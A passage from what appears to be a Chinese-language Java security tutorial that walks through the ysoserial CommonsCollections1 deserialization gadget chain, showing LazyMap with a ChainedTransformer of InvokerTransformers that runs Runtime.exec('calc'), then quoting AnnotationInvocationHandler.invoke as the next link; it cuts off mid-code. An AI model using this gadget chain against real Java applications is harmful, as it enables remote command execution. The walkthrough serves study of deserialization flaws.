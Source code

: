 我们首先创建了一个InvocationHandler类，并且在该类的构造方法中传递进去我们要代理的具体类的对象。重写invoke方法，在该方法中添加代理的方法，并利用反射调用实际类的方法。使用Proxy.newProxyInstance创建代理类的对象，使用代理类对象调用方法。

## Ysoserial的CC1

### LazyMap

我们在上面说到，ysoserial的CC1使用的是LazyMap，而我们构建的链使用的是TransformedMap，这两者在哪些地方有区别呢？我们接下来就来看一下。

我们可以看到，LazyMap在get方法中调用了transform方法，因此我们可以尝试构造以下代码，测试是否能够执行系统命令。

```java
Transformer[] transformers = new Transformer[]{
    new ConstantTransformer(Runtime.class),
    new InvokerTransformer("getMethod", 
                           new Class[]{String.class,Class[].class}, 
                           new Object[]{"getRuntime",new Class[0]}),
    new InvokerTransformer("invoke", 
                           new Class[]{Object.class,Object[].class}, 
                           new Object[]{null, new Object[0]}),
    new InvokerTransformer("exec", 
                           new Class[]{String.class},
                           new String[]{"calc"}),
};

ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
HashMap<Object, Object> innerMap = new HashMap<>();
innerMap.put("value", "test");
Map outerMap = LazyMap.decorate(innerMap, chainedTransformer);
outerMap.get(Runtime.getRuntime());
```

经过测试，发现是可以进行命令执行的，那么就需要继续往上寻找，哪里调用过set方法。最终在AnnotationInvokerHandler中的invoke方法中找到了调用：

```java
public Object invoke(Object proxy, Method method, Object[] args) {
    String member = method.getName();
    Class<?>[] paramTypes = method.getParameterTypes();

    // Handle Object and Annotation methods
    if (member.equals("equals") && paramTypes.length == 1 &&
        paramTypes[0] == Object.class)
        return equalsImpl(args[0]);
    if (paramTypes.length != 0)
        throw new AssertionError("Too many parameters for an annotation method");

    switch(member) {
        case "toString":
            return toStringImpl();
        case "hashCode":
            return hashCodeImpl();
        case "annotationType":
            return type;
    }

    // Handle annotation member accessors
    Object result = memberValues.get(member);
```
